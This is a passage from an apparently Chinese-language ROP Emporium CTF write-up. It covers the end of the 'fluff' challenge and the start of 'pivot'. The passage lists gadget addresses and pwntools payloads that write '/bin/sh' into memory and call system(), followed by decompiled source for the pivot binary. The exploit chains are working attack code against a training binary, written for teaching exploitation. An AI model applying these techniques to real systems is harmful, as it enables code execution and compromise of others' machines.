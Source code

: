 这里可以交换 `r11` 和 `r10` 的值，那么我们是不是可以通过控制 `r11`，然后最后让它和 `r10` 交换从而控制 `r10` 呢？

我们发现是可以的，因为有：

```
0x0000000000400822 : xor r11, r11 ; pop r14 ; mov edi, 0x601050 ; ret
0x000000000040082f : xor r11, r12 ; pop r12 ; mov r13d, 0x604060 ; ret
```

这两个 gadget 让我们想到：我们可以先通过第一个 gadget 清零 `r11`，然后用第二个 gadget 让 `r11` 和 `r12` 异或，此时就等同于 `mov r11, r12` 了。而 `r12` 是很好控制的：

```
0x0000000000400832 : pop r12 ; mov r13d, 0x604060 ; ret
```

这样就可以构造 ROP 链先把地址写入 `r10`：

```python
got_start = 0x601000
xor_r11_r11 = 0x400822
pop_r12 = 0x400832
xor_r11_r12 = 0x40082f
xchg_r11_r10 = 0x400840

payload = flat(['a'*40, xor_r11_r11,'a'*8, pop_r12, got_start, xor_r11_r12,'a'*8, xchg_r11_r10,'a'*8])
```

这里的 `'a'*8` 是为了解决后面的无用 `pop`。

第二步，向 `r11` 写入 `/bin/sh\x00`，其实和上面同理：

```python
payload += flat([xor_r11_r11,'a'*8, pop_r12,'/bin/sh'.ljust(8,'\x00'), xor_r11_r12,'a'*8])
```

第三步，向 `r10` 中的地址写入 `r11` 中的数据，需要注意的是由于该 gadget 后半部分会 `pop r12` 并且将 `r12` 也去和 `r10` 中的地址存放的值异或，此时我们必须控制 `r12` 为 0：

```python
mov_r10_r11 = 0x40084e
pop_rdi_ret = 0x4008c3
payload += flat([mov_r10_r11,'a'*8, 0, pop_rdi_ret, got_start, elf.plt['system']])
```

## pivot

`stack pivoting` 就是在栈空间较小的情况下，把 `esp` 移到别的地方去，这样就能有更多空间写 ROP 链了。

这一关大意是要调用 `libpivot.so` 中的 `ret2win` 函数，也就是第一关的那个。此外，还有个 `uselessFunction` 里调用了 `libpivot.so` 里的 `foothold_function`。

IDA 得到的源码如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *ptr; // ST08_8

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("pivot by ROP Emporium");
  puts("64bits\n");
  ptr = (char *)malloc(0x1000000uLL);
  pwnme(ptr + 16776960);
  free(ptr);
  puts("\nExiting");
  return 0;
}

char *__fastcall pwnme(char *a1)
```